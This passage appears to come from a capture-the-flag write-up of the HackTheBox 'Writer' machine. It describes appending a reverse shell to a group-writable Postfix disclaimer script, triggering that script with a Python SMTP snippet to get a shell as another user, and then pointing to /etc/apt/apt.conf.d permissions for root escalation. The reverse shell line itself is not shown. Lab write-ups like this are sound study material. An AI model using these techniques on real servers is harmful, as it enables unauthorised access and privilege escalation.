 ```bash
                   --xheader="X-Copyrighted-Material: Please visit http://www.company.com/privacy.htm" || \
                    { echo Message content rejected; exit $EX_UNAVAILABLE; }
fi

$SENDMAIL "$@" <in.$$

exit $?
```

This script apparently appends a disclaimer to all messages sent by users in `/etc/postfix/disclaimer_addresses`. Checking its content we can see that `kyle@write.htb` is one of them, so we would be able to trigger this script.

The point is that none of the used binaries are vulnerable to a privesc but, as isn't clear which account triggers this script, we could move laterally and obtain another credential in this box by appending a command to spawn a reverse shell to us, once we're a member of `filter` group and this group has write permissions in this file.

```bash
kyle@writer:/dev/shm$ ls -la /etc/postfix/disclaimer
-rwxrwxr-x 1 root filter 1021 Aug 21 04:22 /etc/postfix/disclaimer
```

Appended the reverse shell line below to the beginning of the script and then triggered an e-mail sending using the script below.

```python
import smtplib

mailAddress = "kyle@writer.htb"
message = "Subject: Test message\n\nTest message."

try:
    server = smtplib.SMTP("127.0.0.1", 25)
    server.ehlo()
    server.sendmail(mailAddress, mailAddress, message)
except Exception as e:
    print(e)
finally:
    server.quit()
```

The session I have obtained was from user `john`. From his account noticed that he's a member of the `management` group, which has permissions on directory `/etc/apt/apt.conf.d`

```bash
john@writer:~$ find / -group management 2>/dev/null
/etc/apt/apt.conf.d
```

Searching a little about this privilege, noticed that it could be used to gain root access, according to [Linux for Pentester: APT Privilege Escalation (hackingarticles.in)](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/). This was confirmed also via [apt.conf(5) — apt — Debian testing — Debian Manpages](https://manpages.debian.org/testing/apt/apt.conf.5.en.html)
